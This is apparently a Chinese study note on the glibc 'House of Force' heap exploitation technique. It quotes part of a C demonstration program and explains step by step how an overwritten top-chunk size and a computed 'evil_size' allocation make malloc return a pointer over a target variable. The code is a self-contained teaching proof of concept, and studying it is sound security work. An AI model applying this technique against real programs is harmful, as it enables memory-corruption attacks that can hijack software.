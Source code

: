 ```c
        fprintf(stderr, "\nThe size of the wilderness is now gigantic. We can allocate anything without malloc() calling mmap.\n"
                "Next, we will allocate a chunk that will get us right up against the desired region (with an integer\n"
                "overflow) and will then be able to allocate a chunk right over the desired region.\n");

        // 3
        /*
                * The evil_size is calulcated as (nb is the number of bytes requested + space for metadata):
                * new_top = old_top + nb
                * nb = new_top - old_top
                * req + 2sizeof(long) = new_top - old_top
                * req = new_top - old_top - 2sizeof(long)
                * req = dest - 2sizeof(long) - old_top - 2sizeof(long)
                * req = dest - old_top - 4*sizeof(long)
                */
        unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*4 - (unsigned long)ptr_top;
        fprintf(stderr, "\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size,\n"
                "we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
        void *new_ptr = malloc(evil_size);
        fprintf(stderr, "As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr - sizeof(long)*2);

        // 4
        void* ctr_chunk = malloc(100);
        fprintf(stderr, "\nNow, the next chunk we overwrite will point at our target buffer.\n");
        fprintf(stderr, "malloc(100) => %p!\n", ctr_chunk);
        fprintf(stderr, "Now, we can finally overwrite that value:\n");

        fprintf(stderr, "... old string: %s\n", bss_var);
        fprintf(stderr, "... doing strcpy overwrite with \"YEAH!!!\"...\n");
        strcpy(ctr_chunk, "YEAH!!!");
        fprintf(stderr, "... new string: %s\n", bss_var);

        assert(ctr_chunk == bss_var);
}
```

1. p1指向一块256大小的内存，此时top chunk 被分割成来两部分。获取p1的实际大小。
2. 通过`p1+real_size-sizeof(long)`获取top chunk的指针，然后改写top chunk的size为-1，这样即便malloc一块大内存也不会去调用mmap了
3. 计算bss_var 和ptr_top之间的距离，将其作为参数进行malloc，这样下次malloc就能够获取bss_var的指针的了。这里有个式子第一眼看上去不太明了，需要拆解一下：

   `unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*4 - (unsigned long)ptr_top;`

    我们所要达到的目的是通过ptr_top的指针，加上一定值（第一次malloc），能够到达bss_var - 0x10的地址，这样第二次malloc就能够改写bss_var 的值了。由于ptr_top指向的是topchunk，所以公式是：`ptr_top + 0x10 + x = dest - 0x10`，得`x = dest - 0x10 - ptr_top - 0x10`

4. ctr_chunk指向一块100大小的内存，它的地址 == bss_var，改写ctr_chunk完成攻击。

## large_bin_attack
